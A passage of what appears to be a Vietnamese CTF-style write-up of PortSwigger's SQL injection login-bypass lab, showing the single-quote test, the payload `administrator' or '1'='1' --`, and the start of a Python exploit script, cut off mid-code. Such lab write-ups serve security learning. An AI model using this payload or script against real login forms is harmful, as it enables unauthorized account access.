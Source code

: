 và xem được 17 sản phẩm trong table trong khi trang web chỉ hiển thị ra giao diện web 12 sản phẩm

![ảnh](https://hackmd.io/_uploads/SJ3rQMXhp.png)

## 2. Lab: SQL injection vulnerability allowing login bypass

link: https://portswigger.net/web-security/sql-injection/lab-login-bypass

### Đề bài

![image](https://hackmd.io/_uploads/SkI3UVic6.png)

### Phân tích

- Lab này chứa một lỗ hổng SQL Injection ở phần đăng nhập, để giải quyết lab này, mình cần phải thực hiện SQL injection để đăng nhập vào ứng dụng với tài khoản admin

mình gửi single quote và nhận phản hồi lỗi 500 từ phía server cho thấy web này có thể dính lỗi sqli

![image](https://hackmd.io/_uploads/Hkz3uNscT.png)

- bài lab này có thể sử dụng câu query sau để xác thực xem tài khoản có tồn tại không. Ví dụ với account `wiener:peter`

```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'peter'
```

### Khai thác

Lúc này dễ dàng thấy, nếu chèn username là một điều kiện luôn đúng và comment phần sau lại thì sẽ bypass thành công. Cụ thể, để đăng nhập được với administrator, ta chỉ cần gửi username=`administrator' or '1'='1' --` . Lúc này câu query trở thành:

```sql
SELECT * FROM users WHERE username = 'administrator' or '1'='1' -- AND password = 'peter'
```

![image](https://hackmd.io/_uploads/BybujVj9a.png)

và mình đã được chuyển hướng đến trang tài khoản admin

mình đã viết script khai thác

```python
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0abd00e50373f1a0855940ec00e4000c.web-security-academy.net'

session = requests.Session()

response = session.get(
    url + "/login",
    verify=False,
)
soup = BeautifulSoup(response.text,'html.parser')
csrf = soup.find('input',{'name' : 'csrf'})['value']

payload = "administrator' or '1'='1' --"
data = {
```
